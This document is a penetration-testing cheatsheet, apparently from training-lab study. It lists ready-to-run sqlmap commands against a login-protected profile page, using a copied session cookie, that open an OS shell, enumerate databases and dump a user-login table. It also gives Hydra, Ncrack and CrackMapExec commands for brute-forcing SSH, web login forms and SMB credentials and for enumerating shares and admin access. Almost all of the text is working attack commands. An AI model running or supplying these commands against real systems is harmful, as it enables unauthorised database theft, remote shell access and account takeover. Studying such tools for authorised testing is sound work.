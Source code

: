 #SQLMAP
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope -T User_Login --dump 

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" -D moviescope --tables

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step#7]" --dbs 
##
# ========================
# 🔐 HYDRA CHEATSHEET
# ========================

# 📌 Basic Syntax:
hydra [options] -L userlist -P passlist service://target
hydra [options] -l user -P passlist service://target

# ✅ Single Username:
hydra -l admin -P passwords.txt ssh://192.168.1.10

# ✅ User List:
hydra -L users.txt -P passwords.txt ssh://192.168.1.10

# 🔄 Supported Modules:
# ssh, ftp, http-get, http-post, rdp, smb, vnc, telnet, mysql

# 🔸 HTTP GET Form:
hydra -l admin -P passwords.txt 192.168.1.10 http-get-form "/login.php:username=^USER^&password=^PASS^:F=Incorrect"

# 🔸 HTTP POST Form:
hydra -l admin -P passwords.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

# Notes:
# - F= string to detect failure
# - S= string to detect success (optional)

# ========================
# 💥 NCRACK CHEATSHEET
# ========================

# 📌 Basic Syntax:
ncrack -p [service] -u [user] -P [passlist] [target]

# ✅ Single Username:
ncrack -p ssh -u admin -P passwords.txt 192.168.1.10

# ✅ User List:
ncrack -p ssh --userfile users.txt --passfile passwords.txt 192.168.1.10

# 🔄 Supported Services:
# ssh, ftp, rdp, http, smb, mysql, telnet

# ================================
# 🎯 CRACKMAPEXEC (CME) CHEATSHEET
# ================================

# ✅ Single Username:
crackmapexec smb 192.168.1.10 -u admin -p password123

# ✅ User List:
crackmapexec smb 192.168.1.10 -u users.txt -p passwords.txt

# 🔍 Enumerate SMB Shares:
crackmapexec smb 192.168.1.10 -u admin -p password123 --shares

# 🔐 Check Admin Access:
crackmapexec smb 192.168.1.10 -u admin -p password123 --admin-check

# 🧠 Notes:
# - Supports WinRM, RDP, SMB, MSSQL, etc.
# - CME is useful for post-exploitation AD enumeration
